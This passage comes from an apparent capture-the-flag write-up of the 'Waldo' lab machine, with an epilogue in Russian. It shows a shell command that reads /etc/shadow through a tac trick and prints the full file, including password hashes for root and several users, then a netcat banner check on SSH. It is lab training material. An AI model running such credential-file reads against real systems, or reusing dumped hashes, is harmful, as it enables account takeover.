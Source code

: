 ```text
monitor@waldo:~$ tac /etc/shadow | tac
root:$6$tRIbOmog$v7fPb8FKIT0QryKrm7RstojMs.ZXi4xxHz2Uix9lsw52eWtsURc9dwWMOyt4Gpd6QLtVtDnU1NO5KE5gF48r8.:17654:0:99999:7:::
daemon:*:17653:0:99999:7:::
bin:*:17653:0:99999:7:::
sys:*:17653:0:99999:7:::
sync:*:17653:0:99999:7:::
games:*:17653:0:99999:7:::
man:*:17653:0:99999:7:::
lp:*:17653:0:99999:7:::
mail:*:17653:0:99999:7:::
news:*:17653:0:99999:7:::
uucp:*:17653:0:99999:7:::
proxy:*:17653:0:99999:7:::
www-data:*:17653:0:99999:7:::
backup:*:17653:0:99999:7:::
list:*:17653:0:99999:7:::
irc:*:17653:0:99999:7:::
gnats:*:17653:0:99999:7:::
nobody:*:17653:0:99999:7:::
systemd-timesync:*:17653:0:99999:7:::
systemd-network:*:17653:0:99999:7:::
systemd-resolve:*:17653:0:99999:7:::
systemd-bus-proxy:*:17653:0:99999:7:::
_apt:*:17653:0:99999:7:::
avahi-autoipd:*:17653:0:99999:7:::
messagebus:*:17653:0:99999:7:::
sshd:*:17653:0:99999:7:::
steve:$6$MmXo3me9$zPPUertAwnJYQM8GUya1rzCTKGr/AHtjSG2n3faSeupCCBjoaknUz2YUDStZtvUGWuXonFqXKZF8pXCkezJ.Q.:17653:0:99999:7:::
monitor:$6$IXQ7fATd$RsOewky58ltAbfdjYBHFk9/q5bRcUplLnM9ZHKknVB46smsKn4msCOXDpyYU6xw43rGqJl5fG3sMmEaKhJAJt/:17654:0:99999:7:::
app-dev:$6$RQ4VUGfn$6WYq54MO9AvNFMW.FCRekOBPYJXuI02AqR5lYlwN5/eylTlTWmHlLLvJ4FDp4Nt0A/AX2b3zdrvyEfwf8vSh3/:17654:0:99999:7:::
```

Pwned :triumph:

# Эпилог
## Путаница с SSH
### nc ... 22
Если посмотреть на баннеры OpenSSH изнутри и снаружи docker-контейнера waldo с помощью netcat, то в силу их различия еще раз можно удостовериться, что существуют некие правила маршрутизации, перебрасывающие нас внутрь докера:
```text
root@kali:~# nc 10.10.10.87 22
SSH-2.0-OpenSSH_7.5
^C
```
